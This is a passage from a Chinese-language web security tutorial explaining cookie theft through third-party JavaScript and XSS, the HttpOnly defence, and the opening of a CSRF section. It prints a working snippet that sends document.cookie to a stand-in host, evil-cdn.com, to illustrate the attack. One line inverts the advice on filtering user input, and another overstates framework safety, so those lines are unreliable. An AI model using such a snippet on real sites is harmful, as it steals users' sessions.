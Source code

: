 ```
let img = new Image();
let cookie = document.cookie;
img.src = "https://evil-cdn.com/steal?cookie=" + cookie;
```

现在，每当用户访问您的网站时，用户的 Cookie 也就被盗取了，但用户并不知道。第三方 JS 导致的攻击被称为跨站点脚本（XSS）攻击。

![](/assets/img/13a15e4663a207bfb3ef416a092581c5/008.png)

此外，XSS 注入，也可以造成 Cookie 被窃取。它类似于 SQL 注入。如果您过滤用户的输入，就可能会发生注入。当然，如果您使用现代 SPA 框架，则不必担心这一点。

<blockquote class="blockquote-center">要防止 XSS 攻击，使用 HTTP Only Cookie。它会禁止通过 document.cookie 访问 Cookie</blockquote>

但如果这样做了，你的脚本也无法访问 Cookie 了：

```
Set-Cookie: id=1234 HttpOnly
```

### CSRF -- 跨站请求伪造

这又是一种常见的攻击。攻击者利用的是 Cookie 每次请求都会被带上的特性。

